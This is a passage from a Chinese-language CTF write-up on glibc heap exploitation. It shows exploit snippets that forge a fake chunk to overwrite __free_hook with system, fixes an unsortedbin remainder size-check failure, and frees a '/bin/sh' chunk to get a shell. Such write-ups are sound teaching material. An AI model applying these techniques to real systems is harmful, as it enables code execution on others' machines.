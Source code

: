 成功改写了目标字符串

![](https://static.hack1s.fun/images/2021/12/11/image-20211211192634847.png)

### 任意代码执行

有了任意地址写的能力，代码执行就很简单了

直接针对 free_hook，将其修改为 system 的地址

上面的 exploit 进行一些修改

```
amend_age(0xfffffffffffffff1)

distance = libc.sym.__free_hook-0x20 - elf.sym.user
malloc(distance,'xxxx')

malloc(0x18, p64(libc.sym.system))

```

但是没想到在最后一个 malloc 居然出错了

出错的原因还是熟悉的 unsortedbin 大小检查时出错

![](https://static.hack1s.fun/images/2021/12/11/image-20211211194036198.png)

这个 unsortedbin 是哪里来的呢？

我们构造的 fake chunk 大小太大了，在申请一个从 free_hook 到 user 的内存之后，还有很大的剩余空间，因此需要放入到 remainder 中

所以这就导致 remainder 的 size 没有通过检查

那么对应的解决方法也很简单，只要设法让 remainder 的大小可控就可以了

```
distance = libc.sym.__free_hook-0x20 - elf.sym.user
print("distance %s" % hex(distance))

amend_age(distance+0x29)

binsh = malloc(distance,"/bin/sh\x00")
malloc(0x18, p64(0)+p64(libc.sym.system))

free(binsh)

```

重修修改一下 fake chunk 的 size

让其大小正好是从 user 到 free_hook 前面的差加上一个修改的 chunk 大小

![](https://static.hack1s.fun/images/2021/12/11/image-20211211195958221.png)

注意需要

调整一下 age 设置为 16 位对齐
